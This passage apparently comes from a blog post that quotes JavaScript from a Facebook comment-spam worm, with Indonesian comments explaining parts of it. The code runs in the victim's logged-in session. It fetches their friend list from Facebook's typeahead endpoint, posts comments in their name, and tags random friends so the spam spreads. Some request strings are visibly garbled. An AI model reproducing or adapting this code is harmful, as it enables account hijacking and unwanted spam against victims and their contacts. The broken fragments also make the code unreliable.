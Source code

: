                     }
                }

                yorum_yap(id, mesaj);
            }
        }
    }

    var target_url = '&filter[0]=user&options[0]=friends_only&options[1]=nm&token=v7&viewer='+user_id+'&__user='+user_id;

    if (document.URL.indexOf('https://') >= 0) {
        request.open('GET', 'https://www.facebook.com/ajax/typeahead/first_degree.php?__a=1'+target_url, true);
    } else {
        request.open('GET', 'http://www.facebook.com/ajax/typeahead/first_degree.php?__a=1'+target_url, true);
    }

    request.send();
}

// belum tau ini fungsinya buat apaan, soalnya keliatannya fungsi ini nggak dipake
function RandomArkadas() {
    var target_id = '';

    for (i=0; i<9; i++) {
        target_id += ' @['+arkadaslar.payload.entries[Math.floor(Math.random()*arkadaslar.payload.entries.length)]['uid']+':'+arkadaslar.payload.entries[Math.floor(Math.random()*arkadaslar.payload.entries.length)].text+']';
    }

    return target_id;
}

// fungsi untuk posting komentar
function yorum_yap(id, comment) {
    var request = new XMLHttpRequest(),
        target_url = '&ft_ent_identifier='+id+'&comment_text='+encodeURIComponent(comment)+'&source=2&client_id=1377871797138:1707018092&reply_fbid&parent_comment_id&rootid=u_jsonp_2_3&clp={"cl_impid":"453524a0clearcounter":0,"elementid":"js_5version":"xparent_fbid":}&attached_sticker_fbid=0&__user='+user_id+'&attached_photo_fbid=0&giftoccasion&ft[tn]=[]&__a=1'+fb_dtsg+'&__dyn=7n8ahyj35ynxl2u5F97KepEsyo';

    request.open('POST', '&__req=q', true);
    request.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');
    request.onreadystatechange = function () {
        if (request.readyState == 4 && request.status == 200) {
            request.close;
        }
    }

    request.send(target_url);
}

arkadaslari_al(id);
{% endhighlight %}
